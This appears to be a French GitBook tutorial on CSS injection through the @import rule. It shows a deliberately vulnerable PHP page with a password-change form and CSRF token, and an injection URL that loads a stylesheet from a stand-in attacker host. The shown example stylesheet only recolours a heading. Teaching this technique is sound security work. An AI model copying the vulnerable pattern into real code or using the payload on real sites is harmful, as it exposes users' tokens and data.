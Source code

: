 C'est donc le code suivant qui sera utilisé pour illustrer l'utilisation de la règle `@import` dans une injection CSS :&#x20;

{% code overflow="wrap" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
      <?php echo htmlspecialchars($_GET['css'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
    </style>
  </head>
  <body>
    <h1>Injection CSS - utilisation de la règle CSS @import</h1>
    <form action="" method="POST">
        <input type="password" name="newPassword" placeholder="New Password">
        <input type="password" name="confirmNewPassword" placeholder="Confirm New Password">
        <input type="hidden" name="csrf-token" value="a5ccef6a-1f00-4a02-b16b-e4e9e517b223">
        <input type="submit" name="changePassword" value="Continue">
    </form>
  </body>
</html>
```
{% endcode %}

L'injection permettant d'importer une feuille de style contrôlée par l'attaquant étant la suivante :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/regle-import.php?css=@import%20url(https://attacker.com/style.css)
```
{% endcode %}

Lorsque la victime visite la page injectée, son navigateur effectue la requête permettant de charger la feuille de style importée :&#x20;

<figure><img src="../../../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

En admettant que le contenu de la feuille de style malicieuse n'effectue seulement qu'un changement de couleur du titre :&#x20;

{% code overflow="wrap" %}
```css
h1 {
  color: red;
}
```
{% endcode %}
